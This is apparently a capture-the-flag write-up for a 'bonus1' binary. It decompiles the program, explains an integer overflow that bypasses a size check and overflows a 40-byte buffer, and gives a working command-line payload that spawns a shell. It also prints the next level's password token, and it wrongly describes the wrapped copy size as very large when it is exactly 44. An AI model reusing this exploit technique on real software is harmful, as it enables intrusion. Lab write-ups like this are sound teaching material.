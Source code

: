 # Bonus1

1. Decompilation with Ghidra

    ```c
    undefined4 main(undefined4 param_1, int param_2)
    {
    undefined4 uVar1;
    undefined1 local_3c [40]; // 40 bytes buffer
    int local_14;
    
    local_14 = atoi(*(char **)(param_2 + 4)); // argv[1]
    
    if (local_14 < 10) { // should be < 10
        memcpy(local_3c, *(void **)(param_2 + 8), local_14 * 4);  // argv[2]
        if (local_14 == 0x574f4c46) { // 1464814662
           execl("/bin/sh","sh",0); // SHELL !
        }
        uVar1 = 0;
    }
    else {
        uVar1 = 1;
    }
    return uVar1;
    }
    ```

2. The Vulnerability: Integer Overflow

    The program has multiple issues:

    1. **Signed Integer Check**: The program checks `local_14 < 10`, but `local_14` is a **signed integer**
    2. **Integer Multiplication**: `memcpy` uses `local_14 * 4` as the size parameter
    3. **Win Condition**: If `local_14 == 0x574f4c46` (1464814662), it spawns a shell


    ```
    [buffer: 40 bytes]  <- local_3c (at ebp-0x3c)
    [local_14: 4 bytes] <- at ebp-0x14
    ```

    Distance: `0x3c - 0x14 = 0x28 = 40 bytes`

3. Exploitation

    1. **Use a negative number** for `argv[1]` to pass the check `< 10`
    2. **Integer overflow** on multiplication: negative × 4 wraps to a large positive number
    3. **Buffer overflow** via `memcpy` to overwrite `local_14`
    4. **Overwrite `local_14`** with `0x574f4c46` to trigger shell execution

    We need a number `N` such that:

    - `N < 10` (passes the check)
    - `N * 4` overflows to a value ≥ 44 (to copy enough bytes)
    - We can write 40 bytes of padding + 4 bytes of `0x574f4c46`

    **Solution**: `-2147483637`

    - This is close to `INT_MIN` (-2147483648)
    - When multiplied by 4: `-2147483637 * 4 = -8589934548`
    - Due to 32-bit integer overflow, this wraps around to a large positive value
    - This allows `memcpy` to copy at least 44 bytes

    ```
    [40 bytes padding] + [0x574f4c46 in little-endian]
        "A" × 40     +    \x46\x4c\x4f\x57
    ```

    ```bash
    ./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
    ```

4. Execution Flow

    1. `atoi(argv[1])` converts "-2147483637" to integer `local_14 = -2147483637`
    2. Check passes: `-2147483637 < 10` ✓
    3. `memcpy(local_3c, argv[2], -2147483637 * 4)` is called
    4. Integer overflow makes the size very large, copying our entire payload
    5. Buffer overflows and overwrites `local_14` with `0x574f4c46`
    6. Condition `local_14 == 0x574f4c46` is true
    7. `execl("/bin/sh")` spawns a shell
    8. Read `/home/user/bonus2/.pass`

5. Token discovered

    The token is: `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`
